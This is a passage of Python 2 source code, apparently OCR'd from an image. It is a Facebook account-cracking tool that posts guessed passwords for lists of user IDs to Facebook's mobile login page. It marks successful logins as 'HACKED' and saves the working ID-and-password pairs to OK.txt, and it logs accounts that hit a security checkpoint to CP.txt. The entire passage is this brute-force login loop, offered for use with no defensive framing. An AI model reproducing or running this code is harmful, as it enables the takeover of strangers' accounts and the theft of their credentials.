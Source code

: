                                     sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()
                                            oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
                                        else:
                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                'email': uid,
                                                'pass': ps9,
                                                'login': 'submit' })
                                            sp = data.content
                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                ok = open('OK.txt', 'a')
                                                ok.write(uid + '|' + ps9 + '\n')
                                                ok.close()
                                                oks.append(uid + ps9)
                                            elif 'checkpoint' in sp:
                                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps9 + '\x1b[0;97m'
                                                cp = open('CP.txt', 'a')
                                                cp.write(uid + '|' + ps9 + '\n')
                                                cp.close()
                                                cps.append(uid + ps9)
                                            else:
                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                    'email': uid,
                                                    'pass': ps10,
                                                    'login': 'submit' })
                                                sp = data.content
                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    ok = open('OK.txt', 'a')
                                                    ok.write(uid + '|' + ps10 + '\n')
                                                    ok.close()
                                                    oks.append(uid + ps10)
                                                elif 'checkpoint' in sp:
                                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps10 + '\x1b[0;97m'
                                                    cp = open('CP.txt', 'a')
